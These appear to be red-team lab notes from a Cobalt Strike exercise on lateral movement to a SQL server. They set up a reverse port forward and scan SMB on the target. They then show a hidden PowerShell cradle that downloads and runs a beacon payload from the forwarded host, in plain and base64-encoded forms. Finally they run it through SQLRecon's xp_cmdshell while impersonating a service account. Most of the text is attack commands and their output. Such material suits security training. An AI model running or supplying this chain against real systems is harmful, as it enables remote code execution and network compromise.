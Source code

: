 ```powershell
PrimaryStatus                 : OK
Status                        : The rule was parsed successfully from the store. (65536)
EnforcementStatus             : NotApplicable
PolicyStoreSource             : PersistentStore
PolicyStoreSourceType         : Local
RemoteDynamicKeywordAddresses : 
```
setup for `rportfwd` for all `8080` traffic incoming to `WKSTN-2` to be forward to `80` on the teamserver
```powershell
beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
[*] Tasked beacon to forward port 8080 to 127.0.0.1:80
[+] host called home, sent: 10 bytes
```
scanning for `445` to ensure that an `smb` bind will be fine to use because it is open on the target `SQL` server
```powershell
beacon> portscan 10.10.122.25 445
[*] Tasked beacon to scan ports 445 on 10.10.122.25
[+] host called home, sent: 95030 bytes
[+] received output:
(ICMP) Target '10.10.122.25' is alive. [read 8 bytes]
10.10.122.25:445 (platform: 500 version: 10.0 name: SQL-2 domain: DEV)
Scanner module is complete
```
on `cobaltstrike` to host file go to `Site Management` -> `Host File` -> host `smb_x64.ps1` at `/b` on the team server.

We can now download and execute the payload, for example:
`powershell -w hidden -c "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"`

or base64 encode
`powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=`
```powershell
PS C:\Users\Attacker> $str2 = "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"
PS C:\Users\Attacker> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str2))
aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=
PS C:\Users\Attacker>
```
### Command Execution
in order to utilize the `command execution` ensure that you are on `WKSTN-2` as `DEV\bfarmer` because `bfarmer` is able to `impersonate` as `mssql_svc`

the command is utilizing `xp_cmdshell`, impersonating `DEV\mssql_svc` and `executing` the command to hit `8080` on `WKSTN-2` which will hit the `rportfwd to 80` on the `teams server 127.00.1` and grab the `smb_x64.ps1`
```powershell
[12/14 00:44:13] beacon> "execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:"powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=""
[12/14 00:44:15] [*] Tasked beacon to run .NET program: SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:"powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA="
[12/14 00:44:15] [+] host called home, sent: 308044 bytes
[12/14 00:44:16] [+] received output:
```